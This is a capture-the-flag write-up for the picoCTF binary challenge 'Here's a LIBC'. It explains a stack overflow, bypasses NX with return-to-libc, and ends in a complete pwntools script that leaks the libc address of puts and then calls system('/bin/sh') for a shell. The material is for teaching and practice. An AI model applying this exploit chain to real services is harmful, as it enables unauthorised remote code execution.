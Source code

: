 # here's a libc
> challenge description: I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774

given: binary vuln libc.so.6 Makefile

## running the binary locally

gives a segmentation fault.

fixed this with pwninit (grabs the correct linker and creates a new binary that i can actually run called vuln_patched)

```console
┌──[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC_tcache]
└──╼ $./vuln_patched 
WeLcOmE To mY EcHo sErVeR!
test
TeSt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
Segmentation fault
```

## finding the vulnerability

looks like there's a basic stack-based overflow.

but NX is enabled, so if the normal buffer-overflow exploits try to put code on the stack and execute it, it won't work.

```console
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC_tcache]
└──╼ $checksec vuln_patched
[*] '/home/user/ctfs/picoCTF/binary_exploitation/Heres_a_LIBC_tcache/vuln_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
## bypassing NX bit using return-to-libc

requirement: a basic stackbased overflow vulnerability

since ALSR is disabled, libc base address would remain constant/static 

ROPGadets in x64:
* pop rdi is used to pop stack into rdi because in 64 bit arch, argumgents are put into register instead of stack
* 4 argument is rdi ->rsi -> rdx -> rcx

#### find a pop rdi to use

```console
```

#### find the offset needed to overwrite rsp

```console
x/xg $rsp

```

#### find the address of the puts function in the GOT and PLT (Procedural Link Table) of the binary.

```console
objdump -D vuln_patched | grep puts
```

### final exploit script
```python
#!/usr/bin/env python3

# https://akshit-singhal.medium.com/rop-chain-exploit-with-example-7e444939a2ec

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("mercury.picoctf.net", 1774)

    return r


def main():
    p = conn()
    context(os='linux', arch='amd64')
    put_plt_addr = p64(0x400540)                     # $ objdump -D vuln_patched | grep puts;;; (400540:	ff 25 d2 0a 20 00    	jmp    *0x200ad2(%rip))
    put_got_addr = p64(0x601018)                     # $ objdump -D vuln_patched | grep puts;;; (# 601018 <puts@GLIBC_2.2.5>)
    main_plt_addr = p64(0x400771)                    # $ objdump -D vuln_patched | grep main;;; (0000000000400771 <main>:)
    pop_rdi_gadget = p64(0x400913)                   # $ ROPgadget --binary vuln_patched | grep rdi; (0x0000000000400913 : pop rdi ; ret)
    
    # gdb > pattern create 200 > x/xg $rsp > pattern offset 0x41416d4141514141 for padding
    payload = b'A'*136
    payload += pop_rdi_gadget
    payload += put_got_addr
    payload += put_plt_addr
    payload += main_plt_addr
    p.clean()
    p.sendline(payload)
    p.recvline()
    p.recvline()

    received_line = p.recvline().strip()
    leaked = u64(received_line.ljust(8, b"\x00"))
    log.info(f"leaked address: {hex(leaked)}")

    libc.address = leaked - libc.symbols['puts']    # finding offset
    log.info(f"libc base address: {hex(libc.address)}")

    bin_sh = next(libc.search(b"/bin/sh"))
    system = libc.symbols['system']
    ret = p64(0x40052e)                             # $ ROPgadget --binary vuln_patched | grep ret;; (find only "ret" instruction & add to avoid segfault)

        # segfault will occur due to alternative stack alignments in Ubuntu 18.04. 
        # solution is to find a simple ret address within the binary, and use that to re-align the stack after using /bin/sh
    
    log.info(f"/bin/sh: {hex(bin_sh)}")
    log.info(f"system: {hex(system)}")

    payload2 = b'A'*136
    payload2 += pop_rdi_gadget
    payload2 += p64(bin_sh)
    payload2 += ret
    payload2 += p64(system)
    
    p.clean()

    # log.info("Payload 2: " + str(payload2))

    p.sendline(payload2)
    p.interactive()

if __name__ == "__main__":
    main()
```
